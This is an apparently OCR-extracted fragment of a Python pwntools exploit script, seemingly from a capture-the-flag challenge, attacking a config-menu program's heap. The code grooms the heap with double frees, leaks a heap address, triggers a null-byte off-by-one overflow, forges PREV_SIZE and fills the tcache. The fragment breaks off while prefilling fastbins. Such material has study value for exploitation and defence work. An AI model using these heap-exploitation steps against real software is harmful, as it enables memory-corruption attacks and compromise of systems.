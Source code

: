 ```python
    FAKE_OFFSET = 0x380
    LIBC_ARENA_OFFSET = 0x340

    p = io()
    primitives = False

    # Import config menu and trigger getline() big allocation to avoid realloc()
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"> ", b"[PLAYER\x00" + b"A"*0x3e8 + b"]")
    
    # Allocate the first entry_t, entry_t->key and entry_t->value    
    p.sendline(b"name=" + b"A"*0x40 + b"\n")

    # Edit config menu
    p.sendlineafter(b"> ", b"2")

    # Allocate two more chunk
    edit_add_entry(b"name", b"B"*0x40)
    edit_add_entry(b"name", b"C"*0x40)

    # Free entry_t, entry_t->key and entry_t->value 2 times
    edit_del_entry(b"name")
    edit_del_entry(b"name")

    # This will use the no null byte vuln added when adding a space in value
    # This chunk will replace the old entry_t
    edit_add_entry(b"name", b"D"*0x18 + b" " + b"D"*0x8)

    # Heap leak
    heap_leak = p.recvuntil(b"AAAA\n").partition(b"name = DDDDDDDDDDDDDDDDDDDDDDDD")[2]
    heap_leak = heap_leak.partition(b"\nname")[0]
    heap_leak = int.from_bytes(heap_leak, "little")
    
    log.info("Heap leak : " + hex(heap_leak))

    # Allocate one entry_t that we will free later for grooming
    edit_add_entry(b"elo", b"E"*0x30)
    
    # Allocate the entry_t that will off-by-one his neighbour
    edit_add_entry(b"level", b"F"* (0x38-1))

    # Make the victime chunk that will be off-by-one next to the overflowing one
    edit_del_entry(b"elo")
    edit_add_entry(b"token", b"G"*0xf0)
    
    # TRIGGER null off-by-one
    edit_mod_entry(b"level", b"H" * 0x38)

    # Clearing PREV_SIZE
    for i in range(1, 9):
        edit_mod_entry(b"level", b"H"* (0x38-i))

    # Writing PREV_SIZE
    edit_mod_entry(b"level", b"H"*0x30 + p64(PREV_SIZE).replace(b"\x00", b""))

    # Filling the tcache (0x100)
    for i in range(0, 7):
        edit_add_entry(b"elo", b"I"*0xf0)

    for i in range(0, 7):
        edit_del_entry(b"elo")

    # Prefill some fastbins for later 0x20 allocation
```